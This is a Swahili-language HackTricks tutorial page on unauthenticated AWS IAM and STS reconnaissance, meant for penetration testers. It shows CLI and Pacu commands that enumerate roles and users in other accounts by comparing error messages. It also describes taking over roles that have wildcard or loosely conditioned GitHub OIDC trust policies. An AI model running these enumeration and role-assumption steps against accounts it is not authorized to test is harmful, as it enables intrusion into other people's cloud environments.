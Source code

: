 # AWS - Ukusanyaji wa Data wa IAM & STS Usiothibitishwa

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Ukusanyaji wa Majukumu na Majina ya Watumiaji kwenye akaunti

### ~~Jaribio la Kufikiria Kiotomatiki Jukumu~~

{% hint style="danger" %}
**Mbinu hii haifanyi kazi** tena kwani ikiwa jukumu lipo au la, utapata kosa hili daima:

`Kosa lilijitokeza (AccessDenied) wakati wa kuita operesheni ya AssumeRole: Mtumiaji: arn:aws:iam::947247140022:user/testenv hana idhini ya kutekeleza: sts:AssumeRole kwenye rasilimali: arn:aws:iam::429217632764:role/account-balanceasdas`

Unaweza **jaribu hili kwa kukimbia**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Kujaribu **kufikiria jukumu bila idhini inayostahili** husababisha ujumbe wa kosa kutoka AWS. Kwa mfano, ikiwa huna idhini, AWS inaweza kurudisha:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Hii ujumbe unathibitisha uwepo wa jukumu lakini unaonyesha kwamba sera yake ya kuchukua jukumu hairuhusu dhana yako. Kwa upande mwingine, jaribio la **kuchukua jukumu lisililopo husababisha kosa tofauti**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Kwa kuvutia, njia hii ya **kutofautisha kati ya majukumu yaliyopo na yasiyopo** inaweza kutumika hata kati ya akaunti tofauti za AWS. Kwa ID halali ya akaunti ya AWS na orodha ya maneno iliyolengwa, mtu anaweza kuchunguza majukumu yaliyopo katika akaunti bila kukutana na vizuizi vyovyote vya asili.

Unaweza kutumia [script huu kutambua wakuu wanaowezekana](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) kwa kutumia suala hili.

### Sera za Kuamini: Kuvunja Nguvu Majukumu na Watumiaji wa Akaunti za Msalaba

Kuweka au kusasisha **sera ya kuamini ya jukumu la IAM kunahusisha kufafanua ni rasilimali au huduma za AWS zipi zinaruhusiwa kuchukua jukumu hilo** na kupata vitambulisho vya muda. Ikiwa rasilimali iliyotajwa katika sera **ipo**, sera ya kuamini inahifadhiwa **kwa mafanikio**. Walakini, ikiwa rasilimali **haipo**, **kosa linazalishwa**, ikionyesha kuwa mkuu batili alitolewa.

{% hint style="warning" %}
Tafadhali elewa kuwa katika rasilimali hiyo unaweza kufafanua jukumu au mtumiaji wa akaunti ya msalaba:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Hii ni mfano wa sera:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Hii ni **kosa** utakaloliona ikiwa unatumia **jukumu ambalo halipo**. Ikiwa jukumu **lipo**, sera ita **hifadhiwa** bila makosa yoyote. (Kosa ni kwa ajili ya kuboresha, lakini pia inafanya kazi wakati wa kuunda)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Unaweza kiotomatiki mchakato huu kwa [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Tumia [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Jukumu la `admin` lililotumiwa kwenye mfano ni **jukumu katika akaunti yako litakalotumiwa kwa udanganyifu** na pacu ili kuunda sera inayohitajika kwa ajili ya uchambuzi

### Privesc

Katika kesi jukumu lilikuwa limeconfigure vibaya na kuruhusu yeyote kudai:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Mshambuliaji anaweza tu kudai hivyo.

## Ufikiaji wa Tatu wa OIDC Federation

Fikiria kwamba unaweza kusoma **mfumo wa hatua za Github** ambao unapata **jukumu** ndani ya **AWS**.\
Imani hii inaweza kutoa ufikiaji kwa jukumu lenye **sera ya imani** ifuatayo:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Sera hii ya uaminifu inaweza kuwa sahihi, lakini **ukosefu wa hali zaidi** unapaswa kukufanya usiwaamini.\
Hii ni kwa sababu jukumu la awali linaweza kuchukuliwa na **MTU yeyote kutoka Github Actions**! Unapaswa kueleza katika hali pia mambo mengine kama jina la org, jina la repo, env, tawi...

Hitilafu nyingine inayowezekana ni kuongeza **hali kama ifuatavyo:**
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Tafadhali kumbuka **alama ya mwanya** (\*) kabla ya **mambo ya** (**colon**) :. Unaweza kuunda shirika kama **org\_name1** na **kudai jukumu** kutoka kwa Hatua ya Github.

## Marejeo

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
